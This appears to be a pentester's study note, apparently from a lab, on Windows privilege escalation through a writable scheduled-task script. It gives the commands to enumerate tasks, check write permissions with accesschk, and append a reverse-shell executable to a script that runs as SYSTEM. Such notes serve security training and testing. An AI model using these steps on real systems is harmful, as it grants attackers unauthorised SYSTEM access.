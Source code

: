 Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```batch - windows
schtasks /query /fo LIST /v
```

In PowerShell:

PS>
```batch - windows
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

1. In the C:\DevTools directory, there is a PowerShell script called “CleanUp.ps1”. View the script:

```batch - windows
type C:\DevTools\CleanUp.ps1
```

2. This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```batch - windows
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

It appears we have the ability to write to this file.

3. Backup the script:

```batch - windows
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

4. Start a listener on Kali.

[[1._rlwrap]]

5. Use echo to append a call to our reverse shell executable to the end of the script:

[[1._Reverse Shells (WIN)#MSFVenom]]

```batch - windows
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

6. Wait for the scheduled task to run (it should run every minute) to complete the exploit.